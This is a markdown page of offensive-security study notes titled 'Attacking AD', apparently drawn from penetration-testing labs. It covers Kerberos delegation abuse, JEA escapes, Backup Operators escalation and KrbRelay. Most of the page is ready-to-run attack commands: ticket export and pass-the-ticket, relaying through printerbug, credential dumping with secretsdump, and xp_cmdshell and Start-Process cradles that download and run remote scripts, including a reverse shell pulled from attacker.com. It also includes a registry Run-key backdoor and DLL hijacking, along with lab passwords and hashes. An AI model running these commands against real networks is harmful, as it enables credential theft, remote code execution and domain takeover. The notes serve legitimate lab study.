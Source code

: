 # Attacking AD

<details>

<summary>Unconstrained Delegation</summary>

![](<../.gitbook/assets/image (313).png>)

* Allows forwardable TGT --> frontend service is able to perform authentication on behalf of user to any service

## Enumeration

<pre class="language-powershell"><code class="lang-powershell">iex (new-object net.web-client).downloadstring('http://192.168.45.198/PowerView.ps1')
<strong>Get-DomainComputer -Unconstrained
</strong># Domain Controllers are configured with unconstrained delegation by default

#To know the IP of the target
nslookup appsrv01
</code></pre>

## Exploitation

* Must be local admin on the target (eg: appsrv01)
*   3 methods

    * Have domain admin visit the application using uncontrained kerberoast --> dump TGT of admin
      *   ```
          sekurlsa::tickets
          ```

          <figure><img src="../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>


      *   ```
          sekurlsa::tickets /export
          ```

          <figure><img src="../.gitbook/assets/image (315).png" alt=""><figcaption></figcaption></figure>


      *   ```
          kerberos::ptt [0;1801fa]-2-0-60a10000-admin@krbtgt-PROD.CORP1.COM.kirbi
          ```

          <figure><img src="../.gitbook/assets/image (316).png" alt=""><figcaption></figcaption></figure>


      *   ```powershell
          exit
          # Verify that we have the TGT
          klist
          # Laterally move to DC
          C:\Tools\SysinternalsSuite\PsExec.exe \\cdc01 cmd.exe
          ```


    * OR Krbrelayx attack on unconstrained delegation
      *

          <figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


      * Dump the NTLM hashes for Files01 computer account (FILES01$)![](<../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
        *   ```powershell
            # Dump as domain user
            impacket-secretsdump CORP/adam:4Toolsfigure3@192.168.101.104
            # Dump as built-in admin
            impacket-secretsdump administrator:2J8u{2e@192.168.187.121
            ```


      * Add an SPN for `attacker.corp.com` on `FILES01$`
        *   ```powershell
            # git clone https://github.com/dirkjanm/krbrelayx.git
            python3 addspn.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -s HOST/attacker.corp.com --additional 'dc01.corp.com'
            ```


      * Add a DNS Entry for `attacker.corp.com` in Active Directory
        *   ```powershell
            python3 dnstool.py -u "corp.com\FILES01$" -p aad3b435b51404eeaad3b435b51404ee:9aa7af9cb73fbb418adf1586e9686931 -r 'attacker.corp.com' -d '192.168.45.211' --action add 'dc01.corp.com'
            ```


      * Verify DNS Resolution for Attacker Host
        *   ```powershell
            nslookup attacker.corp.com dc01.corp.com
            ```


      * Start `krbrelayx` to Relay Authenticated TGT
        *   ```powershell
            # aes256-cts-hmac-sha1-96
            python3 krbrelayx.py -aesKey 00ba3cfd9198fa8a6dc795324242810e98c7d36d083bd811fdfe204ef30cc7a7
            ```


      * Trigger Authentication from the DC Using the Print Spooler Bug
        *   ```powershell
            python3 printerbug.py "corp.com/FILES01$"@dc01.corp.com -hashes aad3b435b51404eeaad3b435b51404ee:22a506a9cabc86c93dda21decc4b2e75 "attacker.corp.com"
            ```


        * If errors out --> rerun the impacket secretdump again to obtain the computer hashes
        * Check if got ccache file in the directory
      * Importing the ccache file
        * ```bash
          mv DC01\$@CORP.COM_krbtgt@CORP.COM.ccache administrator.ccache
          export KRB5CCNAME=administrator.ccache
          ```
      * Use the Captured TGT to Dump Credentials from the DC
        *   ```powershell
            impacket-secretsdump -k -no-pass "corp.com/DC01$"@dc01.corp.com
            ```


      * Running Impacket-PsExec for Remote Code Execution
        * ```powershell
          impacket-psexec admin@dc01.corp.com -hashes :<nt hash>
          ```



    * OR Force high-privileged authentication without any user interaction (PrintSpooler)
      *   ```powershell
          Rubeus.exe monitor /interval:5 /filteruser:CDC01$
          SpoolSample.exe <target-machine> <capture-server>
              #SpoolSample.exe CDC01 APPSRV01
          Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo…
          ```


      * Since machine account (CDC01$) is not local admin on DC, can't laterally move to it
      * Can laterally move via:
        * [Golden Ticket](persistence.md#golden-ticket)
        * [Dump administrator hash](lateral-movement.md#dump-domain-admin-hash-from-dc)

</details>

<details>

<summary>Constrained Delegation</summary>

* Solve the double-hop issue while limiting access to only the desired backend service defined in msds-allowedtodelegateto
* S4U2Self --> Allows a service to request Kerberos TGS for any user, including domain admin, without needing their passwords or hash
* S4U2Proxy --> Allows a service to take a TGS from S4U2Self and exchange it for a TGS to a backend service

![](<../.gitbook/assets/image (11) (1) (1) (1).png>)

## Enumeration

*   <pre class="language-powershell"><code class="lang-powershell"><strong>#Powerview
    </strong><strong>Get-DomainUser -TrustedToAuth
    </strong></code></pre>

    <figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Contained delegation is configured on IISSvc and it is only allowed to MSSQLSvc

## Exploitation 1

* Compromise the IISSvc account
  * ```powershell
    # Generate the NTLM hash
    .\Rubeus.exe hash /password:lab
    # Generate TGT for IISSvc
    .\Rubeus.exe asktgt /user:iissvc /domain:prod.corp1.com /rc4:2892D26CDF84D7A70E2EB3B9F05C425E /nowrap
    ```
* Use S4U2Proxy to get a ticket to MSSQL (SPN listed in msds-allowedtodelegateto field)
  * ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBP... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com:1433 /ptt

    # .\Rubeus.exe s4u /ticket:doIEpjCCBKKgA… /impersonateuser:administrator /msdsspn:cifs/file01.evil.com /ptt
    ```
*   Execute code on MSSQL

    * Enumerate the user logged in to MSSQL --> logged in as the domain admin

    <figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Exploitation 2

* Modify service names in memory to gain unauthorized access to different services on same host
* When TGS is returned by KDC, only server name is encrypted but not service name
* Attacker can modify service name to authenticate to different service
* For instance if msDS-AllowedToDelegateTo is set to MSSQLSvc/cdc01.prod.corp1.com
* Able to change it to access file system (cifs)
*   ```powershell
    .\Rubeus.exe s4u /ticket:doIE+jCCBPag... /impersonateuser:administrator /msdsspn:mssqlsvc/cdc01.prod.corp1.com /altservice:CIFS /ptt
    ```



## Exploitation 3

![](<../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

* Obtain a Ticket Granting Ticket (TGT) for the Service Account
  *   ```powershell
      impacket-getTGT corp.com/iissvc -hashes :12bb0b468b42c76d48a3a5ceb8ade2e9
      export KRB5CCNAME=iissvc.ccache
      ```


* Obtain a Service Ticket (ST) for MSSQL Service as Administrator
  *   ```powershell
      impacket-getST -spn mssqlsvc/sql01.corp.com:1433 -impersonate administrator corp.com/iissvc -k -no-pass
      # impacket-getST -spn cifs/file02 -impersonate administrator cowmotors.com/svc_file -k -no-pass -dc-ip 172.16.199.100
      export KRB5CCNAME=administrator.ccache
      ```


* Access the SQL Server as Administrator
  *   ```powershell
      impacket-mssqlclient sql01.corp.com -k
      # impacket-psexec administrator@file02 -k -no-pass -dc-ip 172.16.199.100
      ```


* Check the current user and privileges inside SQL Server:
  *   ```sql
      SELECT SYSTEM_USER;
      SELECT IS_SRVROLEMEMBER('sysadmin');
      SELECT CURRENT_USER;
      ```


* Execute Reverse Shell via xp\_cmdshell in sql server
  *   ```sql
      EXECUTE AS LOGIN = 'sa';
      EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
      EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
      EXEC xp_cmdshell 'powershell -c "IEX (New-Object Net.WebClient).DownloadString(\"http://192.168.45.211/runall.ps1\")"';
      ```


* To troubleshoot: use the -dc-ip flag and the cifs/file02 SPN for the getST part and -target-ip for the psexec part
  * ```bash
    # Obtain TGT for service acc
    impacket-getTGT cowmotors.com/svc_file

    # Obtain Service Ticket for cifs/file02 as administrator
    export KRB5CCNAME=svc_file.ccache
    impacket-getST -spn cifs/file02 -impersonate administrator -dc-ip DC01 cowmotors.com/svc_file -k -no-pass

    # Check new kerberos ticket
    mv administrator@cifs_file02@COWMOTORS.COM.ccache administrator.ccache
    export KRB5CCNAME=administrator.ccache
    klist

    # PSExec to file02
    impacket-psexec administrator@file02 -target-ip file02 -k -no-pass
    ```

</details>

<details>

<summary>Resource-Based Constrained Delegation</summary>

* msDS-AllowedToActOnBehalfOfOtherIdentity
* Backend service controls which frontend services can delegate on behalf of users
* Attack against RBCD needs to happen from a computer account or a service account with a SPN

### Enumeration

* Find which computers we can modify using GenericWrite permissions
  *   ```powershell
      Get-DomainComputer | Get-ObjectAcl -ResolveGUIDs | Foreach-Object {$_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
      ```


  * OR Specifying domain
    *   ```powershell
        Get-DomainComputer -Domain ops.comply.com | Get-ObjectAcl -ResolveGUIDs | Foreach-Object { $_ | Add-Member -NotePropertyName Identity -NotePropertyValue (ConvertFrom-SID $_.SecurityIdentifier.value) -Force; $_} | Where-Object { $_.ActiveDirectoryRights -like '*GenericWrite*' }
        ```



### Exploitation

* Add a New Computer Account (myComputer$) to the Domain
  *   ```powershell
      impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      # impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' ops.comply.com/FILE06$ -hashes :c81c9...
      # impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' COWMOTORS-INT.COM/TERENCE.FORD -k -no-pass -dc-host=dc02.cowmotors-int.com
      ```


* Configure RBCD on the Target Machine (BACKUP01$)
  *   ```powershell
      impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
      # impacket-rbcd -k -no-pass -action write -delegate-to "web01$" -delegate-from "myComputer$" COWMOTORS-INT.COM/TERENCE.FORD
      ```


* Obtain a Service Ticket (ST) as Administrator
  *   ```powershell
      impacket-getST -spn cifs/backup01.corp.com -impersonate administrator 'corp.com/myComputer$:h4x'
      # impacket-getST -spn 'cifs/web01.cowmotors-int.com' -impersonate Administrator -dc-ip 'dc02.cowmotors-int.com' 'cowmotors-int/myComputer$:h4x'
      ```


* Execute Commands as Administrator
  *   <pre class="language-powershell"><code class="lang-powershell"><strong>mv Administrator@cifs_backup01.corp.com@CORP.COM.ccache administrator.ccache
      </strong>export KRB5CCNAME=/home/kali/Documents/offsec/challenges/7/administrator.ccache
      impacket-psexec administrator@backup01.corp.com -k -no-pass
      </code></pre>



[Exploiting GenericWrite on Computer Object](lateral-movement.md#exploiting-genericwrite-on-computer-object)

</details>

<details>

<summary>Exploiting Just Enough Administration (JEA)</summary>

* L**imits administrative privileges** by allowing users to run only specific **approved** commands via PowerShell

- View PowerShell Command History
  *   ```powershell
      (Get-PSReadlineOption).HistorySavePath
      type C:\Users\mary\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
      ```


- Detect if JEA is Enabled on the Target Machine
  *   ```powershell
      Enter-PSSession -ComputerName files02 -ConfigurationName j_fs02
      ```


- **Check if commands are restricted:** ![](<../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)
  *   <pre class="language-powershell"><code class="lang-powershell">[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
      # NoLanguageMode --> likely restricted by JEA.

      $ExecutionContext.SessionState.LanguageMode
      <strong>#If full or contrained:
      </strong>&#x26; {IEX (New-Object Net.WebClient).DownloadString('http://192.168.45.211/runall.ps1')}
      </code></pre>


- Enumerate Available Commands in the JEA Session
  *   ```powershell
      Get-Command
      ```


  * If `Copy-Item`, `Move-Item`, or `New-Item` is available, you can **drop malicious payloads**:
    *   ```powershell
        # Exfiltrate sensitive files
        Copy-Item -Path C:\Windows\System32\drivers\etc\hosts -Destination C:\shares\mary\stolen_hosts.txt
        # DLL hijacking for privilege escalation
        Copy-Item C:\shares\payload.dll -Destination "C:\Program Files\VulnerableApp\malicious.dll"
        ```


  * If `Start-Process` is available, it can execute **arbitrary processes**:
    *   ```powershell
        Start-Process "cmd.exe" -ArgumentList "/c whoami"
        Start-Process "powershell.exe" -ArgumentList "-NoP -NonI -W Hidden -c IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/revshell.ps1')"
        ```


  * If `New-Item` and `Set-ItemProperty` are available, registry values can be modified to establish **persistence**:
    * ```powershell
      New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Backdoor" -Value "C:\malware.exe"
      ```
- Proof-of-Concept: Copying dll to program folder for DLL Hijacking
  * ```powershell
    copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"
    ```

</details>

<details>

<summary>Exploiting Just-In-Time Administration Theory</summary>

* Providing temporary, limited administrative access to resources
* Once the time is up, the privileges are revoked automatically
* Requires Privileged Access Management Feature (PAM) to be enabled

## Enumeration

*   ```powershell
    Import-Module .\Microsoft.ActiveDirectory.Management.dll
    Get-Command -Module Microsoft.ActiveDirectory.Management | Where-Object { $_.Name -like "Get-*" }
    ```

    <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


*   ```powershell
    Get-ADOptionalFeature -Filter *
    ```

    <figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
*   ```powershell
    Get-NetUser mary | select memberof
    Get-NetGroup j_approve | select member
    ```



## Enumerate GPOs available in the domain

*   ```powershell
    Get-NetGPO | select displayname
    Get-NetGPO l_web01
    ```

    <figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* Copy paste path to explorer
* View the group policies in [\\\corp.com\SysVol\corp.com\Policies\\{99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6}\Machine\Preferences\Groups](file://corp.com/SysVol/corp.com/Policies/%7B99EC2AB4-0FD4-406E-8FDA-BE451DEB2AA6%7D/Machine/Preferences/Groups)
  *

      <figure><img src="../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption><p>Adding la_web to local admin group (RID: 544) on WEB01</p></figcaption></figure>


*   ```powershell
    klist purge
    #So that we can request the new kerberos ticket
    Enter-PSSession -ComputerName WEB01
    ```



</details>

<details>

<summary>Exploiting Backup Operators To Domain Admin</summary>

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

First, Enumerate writable shares:

```bash
nxc smb 192.168.210.0/24 -u melissa -p WinterIsHere2022! --shares
```

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Exploit using [https://github.com/mpgn/BackupOperatorToDA](https://github.com/mpgn/BackupOperatorToDA)

```bash
.\BackupOperatorToDA.exe -t \\ZPH-SVRCDC01.internal.zsm.local -o \\ZPH-SVRCDC01.internal.zsm.local\c$\
```

Login and download the files from smb share using smbclient:

```
smbclient //ZPH-SVRCDC01/C$ -U=internal.zsm.local/melissa
# Since the SYSTEM file is large, have to increase the timeout and iosize:
timeout 120
iosize 16384

# Download the 3 files
get SAM
get SECURITY
get SYSTEM
```

Secretsdump --> get machine account hash

```
impacket-secretsdump LOCAL -system SYSTEM -security SECURITY -sam SAM
```

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Using machine acc hash, use secretsdump to dump creds on the DC --> get Domain Admin hash

```bash
impacket-secretsdump internal.zsm.local/'ZPH-SVRCDC01$'@ZPH-SVRCDC01.internal.zsm.local -hashes :d47a6d90e1c5adf4200227514e393948
```

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

</details>

<details>

<summary>KrbRelay</summary>

```bash
# In Evil-WinRM shell:
upload ../CheckPort.exe
upload ../KrbRelay.exe
upload RunasCs.exe runascs.exe

# Find available ports for the OXID resolver to run:
.\CheckPort.exe

# Execute krbrelay from runascs to have interactive session:
.\runascs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "C:\Users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10"

# Add User to Administrators group:
.\runascs.exe winrm_user -d absolute.htb TotallyNotACorrectPassword -l 9 "C:\Users\winrm_user\Documents\KrbRelay.exe -spn ldap/dc.absolute.htb -clsid 8F5DF053-3013-4dd8-B5F4-88214E81C0CF -port 10 -add-groupmember Administrators winrm_user"

# Check that user it in administrators group:
net user winrm_user

# Exit and login evil-winrm again
exit
KRB5CCNAME=winrm_user.ccache evil-winrm -i dc.absolute.htb -r ABSOLUTE.HTB
```

</details>
